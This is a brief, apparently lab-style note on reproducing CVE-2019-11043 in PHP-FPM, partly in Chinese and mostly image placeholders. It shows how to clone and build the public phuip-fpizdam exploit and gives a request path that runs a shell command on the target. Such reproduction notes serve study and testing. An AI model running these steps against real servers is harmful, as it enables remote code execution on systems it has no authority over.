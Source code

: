 # CVE-2019-11043
![](vx_images/476132733363463.png)
![](vx_images/100074774332175.png)



```
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```
漏洞利用:
![](vx_images/539406994313991.png)
![](vx_images/488927822204800.png)
/index.php?a=/bin/sh+-c+'id'(需要多次访问才行)
![](vx_images/9584635277808.png)

![](vx_images/269325461021204.png)
